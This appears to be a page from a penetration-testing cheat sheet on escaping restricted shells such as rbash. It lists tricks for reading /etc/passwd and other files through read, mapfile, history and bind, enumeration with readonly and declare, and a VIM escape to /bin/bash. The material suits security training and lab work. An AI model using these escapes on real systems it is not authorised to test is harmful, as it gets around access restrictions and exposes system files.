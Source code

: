 # Restricted Shells

[![linuxprivilegeescalation](../../../../_badges/htb/linuxprivilegeescalation.svg)](https://academy.hackthebox.com/course/preview/linux-privilege-escalation)
[![escaping_from_jails](../../../../_badges/hacktricks/escaping_from_jails.svg)](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/escaping-from-limited-bash#bash-jails)

<div class="row row-cols-lg-2"><div>

A restricted shell such as `rbash` is a shell that restrict the action of the user to a limited list of commands/arguments. For instance, for rBASH:

* we cannot use commands with pathnames containing a "/"
* we can use `help` to list available commands
* we cannot use `cd`
* more restrictions may be in place

To escape of restricted shells, we can try to use command substitution (ex: <code>ls \`pwd\`</code>), command chaining, or editing environment variables.
</div><div>

Common tricks:

* **List files**: `echo /*` and `echo /.*`
* **Read a file**: `read f < /etc/passwd; echo $f`
* **Read a file**: `f=$(</etc/passwd); echo $f`

If you can run commands, refer to [GTFOBins](../tools/gtfobins.md) or their manual. For VIM:

```ruby!
:set shell=/bin/bash
:shell
```
</div></div>

<hr class="sep-both">

## Restricted Bash (rbash)

<div class="row row-cols-lg-2"><div>

#### Enumeration

The `readonly` command is useful to list which variable you can't edit.

```shell!
$ readonly
ENV
PATH
HOME
```

You can use `declare` to get information about your environment.

```shell!
$ declare -x # remove -x to see functions
BASH_VERSINFO=([0]="4" [1]="4" [2]="20" [3]="1" [4]="release" [5]="i686-pc-linux-gnu")
BASH_VERSION='4.4.20(1)-release'
PATH=/tmp/void/
SHELLOPTS=braceexpand:emacs:hashall:histexpand:history:interactive-comments:monitor
```
</div><div>

#### Read a file

Method using `mapfile`:

```shell!
$ mapfile array < /etc/passwd
$ echo ${array[@]}
```

Method using `history`:

```shell!
$ export HISTFILE=/etc/passwd
$ history -r
$ history
```

Method using `bind`:

```shell!
$ bind -f /etc/passwd
```
</div></div>
